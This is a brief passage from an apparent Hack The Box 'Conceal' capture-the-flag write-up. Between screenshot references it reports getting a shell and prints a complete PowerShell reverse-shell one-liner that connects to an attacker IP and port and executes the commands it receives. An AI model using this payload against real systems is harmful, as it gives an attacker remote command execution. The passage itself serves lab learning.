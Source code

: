 ![](/images/hackthebox/conceal/18.png)
<br> I got a powershell reverse shell : 
![](/images/hackthebox/conceal/19.png)
<br> Payload : 
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.xx.xx',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
